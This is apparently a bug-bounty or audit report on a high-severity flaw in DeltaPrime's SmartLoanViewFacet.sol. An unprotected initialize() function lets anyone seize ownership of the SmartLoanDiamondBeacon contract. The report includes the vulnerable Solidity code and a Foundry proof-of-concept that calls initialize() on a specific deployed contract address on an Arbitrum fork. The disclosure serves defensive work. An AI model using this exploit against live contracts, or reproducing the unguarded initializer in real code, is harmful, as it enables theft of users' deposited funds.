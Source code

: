**Contract hijack via unprotected initialize in SmartLoanViewFacet.sol**

               
_Bug Severity: High_             

_Target:_ https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/main/contracts%2Ffacets%2FSmartLoanViewFacet.sol#L41


**Summary:**

DeltaPrime maintains all user's prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he can gain control over all users' Prime accounts.

I did indeed discover such a vulnerability. this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

```solidity
      // SmartLoanViewFacet.sol
@audit-bug--> // ⚠️ This function call is missed
    function initialize(address owner) external {
        require(owner != address(0), "Initialize: Cannot set the owner to a zero address");
        require(address(this) != DeploymentConstants.getDiamondAddress(), "DiamondInit: Cannot initialize DiamondBeacon");

        DiamondStorageLib.SmartLoanStorage storage sls = DiamondStorageLib.smartLoanStorage();
        require(!sls._initialized, "DiamondInit: contract is already initialized");
        DiamondStorageLib.setContractOwner(owner);
        sls._initialized = true;
    }
```


**Impact:**

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.



**Proof of concept (POC):**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract DeltaPrimePoC is Test {
    address constant SmartLoanDiamondBeacon = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant maliciousOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4; // Put any attacker address

    function setUp() public {
        vm.createSelectFork(vm.envString("ARB_RPC_URL"), 234980496);
    }

    function test_Initialize_Targets() public {
           ISmartLoanDiamondBeacon(SmartLoanDiamondBeacon).initialize(maliciousOwner);
        }
    }
```


---

***PoC Output:***

![DeltaPrimePoCResult](https://github.com/user-attachments/assets/3436464d-6d50-4440-b657-2adb23f9dbb5)

